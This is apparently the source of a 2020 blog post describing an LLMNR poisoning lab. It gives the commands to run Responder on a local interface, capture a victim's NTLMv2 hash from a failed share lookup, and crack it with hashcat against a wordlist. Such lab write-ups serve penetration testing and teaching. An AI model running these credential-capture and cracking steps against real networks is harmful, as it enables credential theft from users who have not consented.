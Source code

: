 ```yaml
---
layout: post
title: "Link-Local Multicast Name Resolution (LLMNR) Attack Lab"
twitter_image: /images/LLMNR-AttackLab/Diagram3.png
description: "Link-Local Multicast Name Resolution (LLMNR) Attack Lab."
date: 2020-06-11
feature_image: /images/LLMNR-AttackLab/Diagram3.png
tags: [CyberSecurity]
hashtags: CyberSecurity,LLMNR,PenTesting
---
```


This blog post is about LLMNR attack. LLMNR attack is commonly used by Penetration testers during an engagement to get their hands on NLMv2 hash. The captured hash is either used to obtain the original password or used in the pass the hash attack.
<!--more-->

If you are looking for more information on LLMNR here’s an excellent [resource](https://attack.mitre.org/techniques/T1171/)

```
kali@kali:~/Responder$ git clone https://github.com/lgandx/Responder.git
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram1.png" caption="" %}

```
kali@kali:~$ sudo ifconfig
```

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram2.png" caption="" %}

```
kali@kali:~/Responder$ sudo ./Responder.py -I eth0 -rdwv
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram3.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram4.png" caption="" %}

Let’s try to access non existing shared drive called “catland”. Seeing this request responder reply backs to our machine which in turn result in our machine sending username and NTLMv2 password.

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram5.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram6.png" caption="" %}

Save the captured hash into a file called “kreese”

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram7.png" caption="" %}

On a fresh install of Kali, you need to unzip the rockyou wordlist. It is stored at /usr/share/wordlist directory.

```
kali@kali:~$ cd /usr/share/wordlists/
kali@kali:/usr/share/wordlists$ ls
dirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt.gz wfuzz
kali@kali:/usr/share/wordlists$ gunzip rockyou.txt.gz
gzip: rockyou.txt: Permission denied
kali@kali:/usr/share/wordlists$ sudo gunzip rockyou.txt.gz
kali@kali:/usr/share/wordlists$ ls
dirb dirbuster fasttrack.txt fern-wifi metasploit nmap.lst rockyou.txt wfuzz
kali@kali:/usr/share/wordlists$ cd
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram8.png" caption="" %}

This command might not work if you are running Kali as a virtual machine. It’s always a good idea to run it on the guest operating system. Since i don’t want machine spending hours cracking the password which i already know for testing purpose i created a custom password list called “guessList” containing password used for test lab.

```
kali@kali:~$ hashcat -m 5600 kreese guessList — force
```
{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram9.png" caption="" %}

{% include diagram.html imageurl="/images/LLMNR-AttackLab/Diagram10.png" caption="" %}

{% include thanks.html %}

